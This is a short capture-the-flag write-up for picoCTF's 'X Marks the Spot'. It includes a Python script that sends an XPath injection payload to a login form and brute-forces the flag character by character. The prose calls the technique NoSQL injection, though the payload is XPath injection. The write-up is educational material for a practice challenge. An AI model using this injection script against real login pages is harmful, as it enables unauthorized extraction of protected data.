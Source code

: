 ## X Marks the Spot
The following python code uses a blind nosql injection to brute force the website. Essentially we can send the server a part of the flag and it will respond with "yes" or "no".  We can use this to brute force the flag. So the script below send every possible charcter until we get a character right, then it appends a new one to try it again for the next character. This process repeats until the flag is complete.

For example:

	Request: "picoCTF{a"
	Response: "no"

	Request: "picoCTF{b"
	Response: "no"

	Request: "picoCTF{c"
	Response: "yes"

	Request: "picoCTF{ca"
	Response: "no"

	Request: "picoCTF{cb"
	Response: "yes"

If you would like to read on the topic, here are some resources:

[https://owasp.org/www-community/attacks/Blind_XPath_Injection](https://owasp.org/www-community/attacks/Blind_XPath_Injection "https://owasp.org/www-community/attacks/Blind_XPath_Injection")  

[https://book.hacktricks.xyz/pentesting-web/xpath-injection](https://book.hacktricks.xyz/pentesting-web/xpath-injection "https://book.hacktricks.xyz/pentesting-web/xpath-injection")

  ```python
 import requests
 
alphabet =  "_abcdefghijklmnopqrstuvwxyz1234567890()ABCDEFGHIJKLMNOPQRSTUVXWYZ{}"
flag =  "picoCTF{"
url =  "http://mercury.picoctf.net:28065/"

req = requests.Session()

while flag[-1]  !=  '}':

	for i in  range(len(alphabet)):

		try:
			res = req.post(url,  data={"name":"bob' and //*[contains(text(),'"+flag+alphabet[i]+"')] or ''='","pass":"admin"},  timeout=1)

			if  ("Login failure"  not  in res.text):

				flag += alphabet[i]

				print("[+] Flag: "  + flag)
				
				break

		except:
			
			i-=1 

